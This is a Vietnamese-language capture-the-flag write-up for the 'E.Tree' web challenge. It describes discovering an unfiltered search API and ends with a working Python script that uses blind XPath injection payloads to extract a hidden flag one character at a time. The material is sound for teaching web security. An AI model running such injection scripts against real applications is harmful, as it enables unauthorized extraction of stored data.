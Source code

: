 E.Tree
===
### Description
After many years where humans work under the aliens commands, they have been gradually given access to some of their management applications. Can you hack this alien Employ Directory web app and contribute to the greater human rebellion?

### Solution
- Phân tích code: Ở chall này thì chúng ta chỉ được cung cấp một file duy nhất viết bằng xml. Ở trong đoạn code này thì ta thấy được flag nằm ở 2 phần
![image](https://user-images.githubusercontent.com/54855855/115963952-1e564580-a54c-11eb-8d92-21ff896a8a66.png)
Một đoạn flag nằm ở district[2] và đoạn flag còn lại nằm ở district[3].
Tới đây mình thử nếu không sử dụng header json và không truyền data vào và hi vọng dump ra lỗi của chương trình như bài mình đã từng gặp thì thành công. Mình đọc được code của hàm search
![image](https://user-images.githubusercontent.com/54855855/115964136-25ca1e80-a54d-11eb-87eb-92b1b8edafab.png) => mình có thể injection nó vì ở đây thì mình không thấy nó filter kí tự nào của input.
Mình thử xpath injection với payload đơn giản như sqli xem sao thì kết quả nhận được
![image](https://user-images.githubusercontent.com/54855855/115964057-c4a24b00-a54c-11eb-9dab-77edb3859c3f.png)
Cuối cùng mình thử blind 1 kí tự đầu của flag là `C`
![image](https://user-images.githubusercontent.com/54855855/115964258-c4567f80-a54d-11eb-9cbd-3b77b271e78b.png) => mình đã blind thành công vì vậy bây giờ chỉ cần viết một đoạn script đơn giản để làm việc đó.

### Payload
code brute đoạn flag thứ nhất
```py
import requests
import string

url = 'http://138.68.148.149:31019/api/search'
headers = {"Content-Type":"application/json"}
flag = ''

for i in range(1,50):
	for char in string.ascii_letters+string.digits+'~!@#$%^&*()_+{}':
		print(char,end="\r")
		temp = flag+char
		data = {"search":f"1' or substring(//military/district[2]//selfDestructCode,1,{i})='{temp}"}
		r = requests.post(url=url, headers=headers, json=data)
		if "This millitary staff member exists" in r.text:
			flag += char
			print(flag)
			break
```
sau đó chỉ cần thay district[2] = district[3] và chạy lại đoạn script thì sẽ có flag đoạn còn lại.